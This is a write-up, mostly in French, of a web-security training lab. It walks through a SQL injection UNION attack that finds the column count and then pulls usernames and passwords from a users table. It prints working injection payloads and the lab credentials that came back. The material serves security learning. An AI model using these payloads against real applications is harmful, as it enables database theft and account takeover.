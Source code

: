 ## DESCRIPTION
------------------------------------------------------------------------------------------------------

This lab contains an SQL injection vulnerability in the product category filter.
The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.
To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords,
and use the information to log in as the administrator user.

------------------------------------------------------------------------------------------------------

Pour le début, même chose que dans les précédents labs, il faut trouver le nombre de colonnes que contient la requête de la manière suivante :

`https://0a1f005004cefab4c0b9415b002200c1.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories'UNION SELECT NULL--`

Plus d'internal server error à partir du 2nd NULL, vérifions dorénavant la compatibilité de chaque colonne :
```
'UNION SELECT 'a',NULL--
'UNION SELECT NULL,'a'--
```
Les deux colonnes sont compatibles.


Tentons maintenant de récupérer le mot de passe de l'administrateur.

```
'UNION SELECT username,password FROM users--
```

Les informations suivantes sont renvoyées par le serveur :

- carlos
- l8q5jyynnulbl6stuooi
- administrator
- 1rlwh1lvm4ytp0yubqhe
- wiener
- 8rwfk6bndgcunvflzlnw

Il suffit maintenant de se connecter avec le mot de passe de l'administrateur pour terminer le lab.

